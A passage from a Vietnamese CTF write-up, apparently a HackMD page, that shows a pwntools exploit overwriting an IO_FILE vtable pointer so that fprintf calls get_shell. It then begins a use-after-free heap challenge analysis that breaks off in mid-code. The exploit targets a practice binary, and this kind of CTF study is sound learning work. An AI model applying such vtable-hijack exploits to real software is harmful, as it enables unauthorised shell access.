 ```

offset từ xsputn đến IO_file_jump là 56 

-> ý tưởng của ta là sẽ ghi address của get_shell - 56 vào biến name , chọn option 4 xong nhập địa chỉ của name vào , khi chọn option2 thì fprintf sẽ gọi đến IO_file_jump+56  mà lúc này nó đã bị ghi đè thành get_shell - 56 -> get_shell dc gọi

script :   

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./iofile_vtable')
p = process()

p.sendafter(b'name: ',p64(exe.sym.get_shell -56))
p.sendlineafter(b'> ',b'4')
p.sendlineafter(b'change: ',p64(0x00000000006010d0))
p.sendlineafter(b'> ',b'2')
p.interactive()
```


nếu chạy ở local nó sẽ check vtable -> không thành công , trên sever thì libc < 2.23 nên oke

![image](https://hackmd.io/_uploads/SyjEFUjmyx.png)



--------------

22 . uaf-overwrite
------

- vì heap là phần mình mới được học nên mình sẽ viết writeup thật kĩ để hiểu sâu 


phân tích


- chương trình sẽ có 3 option tương đương 3 function cần nói đến

- human_func

ta thấy đầu tiên nó sẽ malloc 1 chunks 0x20 byte và gán cho human , tiếp theo human dc gán cho v0 , lần nhập đầu tiên sẽ là nhập vào human + 16 , lần nhập thứ 2 là tuôi của human vào human + 24 , tiếp theo đó là free chunks này (uaf xuất hiện ở đây) 
```
void human_func()
{
  _WORD *v0; // rax
